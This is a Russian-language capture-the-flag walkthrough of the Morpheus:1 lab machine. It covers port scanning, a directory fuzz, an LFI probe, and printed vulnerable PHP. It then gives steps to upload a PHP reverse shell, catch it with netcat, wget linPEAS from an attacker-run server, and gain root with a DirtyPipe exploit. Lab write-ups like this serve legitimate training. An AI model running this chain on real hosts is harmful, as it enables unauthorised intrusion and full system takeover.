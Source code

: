 22/tcp open  ssh     OpenSSH 8.4p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|_  256 aa:83:c3:51:78:61:70:e5:b7:46:9f:07:c4:ba:31:e4 (ECDSA)
80/tcp open  http    Apache httpd 2.4.51 ((Debian))
|_http-server-header: Apache/2.4.51 (Debian)
|_http-title: Morpheus:1
81/tcp open  http    nginx 1.18.0
|_http-server-header: nginx/1.18.0
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=Meeting Place
|_http-title: 401 Authorization Required
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

ffuf -u http://192.168.72.131/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -fc 403 -e .php,.txt,.html -ic -s - поиск файлов

index.html
javascript
robots.txt
graffiti.txt
graffiti.php - имеет возможность загружать сообщения

Заходим в burp для теста отправки сообщений на странице graffiti.php
==Тестируем LFI уязвимость в пути файла :== 
file=php://filter/read=convert.base64-encode/resource=graffiti.php

![](../../../attachment/Pasted%20image%2020241003183248.png)

Получается закодированный в base64 код graffiti.php (при нажатие на поле откроется код)
`<<h1>
<center>
Nebuchadnezzar Graffiti Wall

</center>
</h1>
<p>
<?php

$file="graffiti.txt";
if($_SERVER['REQUEST_METHOD'] == 'POST') {
    if (isset($_POST['file'])) {
       $file=$_POST['file'];
    }
    if (isset($_POST['message'])) {
        $handle = fopen($file, 'a+') or die('Cannot open file: ' . $file);
        fwrite($handle, $_POST['message']);
	fwrite($handle, "\n");
        fclose($file); 
    }
}

// Display file
$handle = fopen($file,"r");
while (!feof($handle)) {
  echo fgets($handle);
  echo "<br>\n";
}
fclose($handle);
?>
<p>
Enter message: 
<p>
<form method="post">
<label>Message</label><div><input type="text" name="message"></div>
<input type="hidden" name="file" value="graffiti.txt">
<div><button type="submit">Post</button></div>
</form>
clear
clear`

==Загружаем web-shell:==
1. Копируем код с сайта https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
2. Вставляем весь код в "message= ..." и меняем айпи адрес + порт
3. прописывает путь в &file=shell.php
4. отправляем пакет:
![](../../../attachment/Pasted%20image%2020241003183745.png)

5. Шелл успешно загружен на сайт
6. запускает nc -nvlp PORT для принятия шелла
7. Переходим на shell.php и принимаем шелл в консоли
8. проверяем папку ls и видим флаг
9. cat FLAG1.txt 
10. загружаем и запускаем linPEAS (скачиваем с гита последний релиз, открываем сервер в папке с файлов (python3 -m http.server PORT ), скачиваем на машине жертве wget http://IP:PORT/linPEAS, добавляем права на исполнение chmod +x linPEAS)

 1. Используем dirtyPipe с гита (https://github.com/r1is/CVE-2022-0847)
 2. Проделываем пункт 10 с dirtypipe
 3. получаем Рут
 4. ![](../../../attachment/Pasted%20image%2020241003184801.png)
 5. забираем флаги из root 
